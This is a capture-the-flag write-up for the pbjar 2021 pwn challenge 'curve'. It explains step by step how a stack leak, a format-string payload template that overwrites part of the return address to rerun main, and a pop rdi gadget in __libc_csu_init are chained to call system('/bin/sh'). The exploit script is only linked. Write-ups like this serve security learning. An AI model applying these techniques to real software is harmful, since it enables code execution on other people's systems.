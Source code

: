 # Write Up

## Challenge: **pbjar/2021/pwn/curve**

### Initial Research
---

`! first thing first`

```console
❯ file curve
curve: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=e8fe3eece1912689d5e47acaf76c1dca070f4ad8, not strippe
```

```console
❯ pwn checksec curve
[*] '/home/whoami/ctfs/pbjar/pwn/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

`! everything is on`

`! ghidra time`

```c
undefined8 main(void)
{
  ...
  char local_98 [136];
  ...
  puts("Input 1:");
  read(0,local_98,0xb0);
  puts(local_98);
  ...
}
```

`! obviously, read is overflowing the stack by 0xb0-136=40 bytes`

`! but canary says sorry`

`! okay, let's see what puts can leak from the stack`

```console
(gdb) x/22gx $rbp-0x90
0x7fffffffd890: 0x0000000000000000      0x0000000000000000
0x7fffffffd8a0: 0x0000000000000000      0x0000000000000000
0x7fffffffd8b0: 0x0000000000000000      0x0000000000000000
0x7fffffffd8c0: 0x0000000000000000      0x0000000000000000
0x7fffffffd8d0: 0x0000000000f0b5ff      0x00000000000000c2
0x7fffffffd8e0: 0x00007fffffffd907      0x0000555555555325
0x7fffffffd8f0: 0x0000000000000000      0x0000000000000000
0x7fffffffd900: 0x00005555555552e0      0x00005555555550b0
0x7fffffffd910: 0x00007fffffffda10      0xd6438ff453680d00
0x7fffffffd920: 0x00005555555552e0      0x00007ffff7e2cd0a
0x7fffffffd930: 0x00007fffffffda18      0x0000000100000000
```

`! we can leak only one of these -`
+ `a stack address`
+ `an address where curve loaded`
+ `an address where libc loaded if we go through canary`

`? what else, and only else`

```c
undefined8 main(void)
{
  ...
  char local_98 [136];
  ...
  __format = (char *)malloc(0x80);
  ...
  puts("Input 2:");
  read(0,local_98,0x80);

  puts("\nInput 3:");
  read(0,__format,0x80);
  printf(__format);
  free(__format);
  return 0
}
```

`? printf`

`! this will allow us to leak the data from the stack`

`! and to write the random locations where the data from the stack is pointed to`

`! or if we combine with input 2, we can write an arbitrary location, as it's writing into the stack`

### Thought flow
---
`! leak the stack address using input 1`

`! write the shell code and the main return address pointer into the stack using input 2`

`! modify the main return address on the stack with the shell code address using printf`

`! execution will be redirected`

```diff
+ stack address can be leaked
+ main return address pointer can be calculated
+ shell code and pointer can be combined
+ still can modify the main return address with a painful printf bandwidth, as we can only write one pointer on the stack
- unfortunately stack is not executable: FULL RELRO
```
`! we can still redirect the execution where ever we want`

`? any system call in the program`

`! not found`

`! wait we can't know any other address to jump if we need stack address for redirection`

`! stuck`

`! wait original return address might be useful`

`! oh, i can only modify a part of it`

`! that would allow to jump some special location with proper alignment`

`! let's see what is interesting there`

```console
(gdb) disas 0x00007ffff7e2cd0a
   ...
   0x00007ffff7e2cd03 <+227>:   mov    rax,QWORD PTR [rsp+0x10]
   0x00007ffff7e2cd08 <+232>:   call   rax
   0x00007ffff7e2cd0a <+234>:   mov    edi,eax
   0x00007ffff7e2cd0c <+236>:   call   0x7ffff7e44660 <exit>
   ...
(gdb) x/i $rsp+0x10
   0x555555555195 <main>:       push   rbp
```
`! interesting`

`! if we change the least significant byte of the return address from 0x..0a to 0x..03, the main will be called again`

`! perfect`

`! now we can leak everything from the memory with printf, as the program will not end`

`! the payload would be like "111%{}$hhn %{}$lx ..."`

`! the first format is to modify the return address and else to leak`

`? now what`
```diff
+ able to write to any amount of memory locations as we can loop back to mean
+ a libc address can be leaked
+ system address can be calculated
+ can redirect to system
- rdi needs to be loaded with string pointer pointed to "/{program_path}"
```

`? how to call system properly without shell code`

`! stuck`

`! oh wait, pop rdi; ret; will call the system cause we have full control of stack`

`! if we found those instructions on any loaded program by any chance, we can redirect to there with a crafted stack`

`! let's see the shell code of those instructions real quick`

```console
❯ echo -e "pop rdi\nret" > pop-rdi-ret.asm
❯ nasm -f elf64 pop-rdi-ret.asm
❯ objdump -d pop-rdi-ret.o
...
0000000000000000 <.text>:
   0:   5f                      pop    %rdi
   1:   c3                      retq
```

`! search for 0x5f 0xc3 in ghidra`

```console
        undefined __libc_csu_init()
...
        0010133a 41  5f           POP        R15
        0010133c c3              RET
```

`! it's in the csu init`

`! we can jump to 0x..3b instead of 0x..3a`

`! that will pop the rdi and return`

`! before return to there, stack format should be`

```
* rsp
| address_to_0x5f0xc3 | bin_sh_address | system_address |
```

```diff
+ __libc_csu_init address can be calculated from leaked address
+ /bin/sh can be written to heap
+ heap address is also leaked
```

`! perfect`

`! review` [exploit.py](exploit.py) `for implementation`
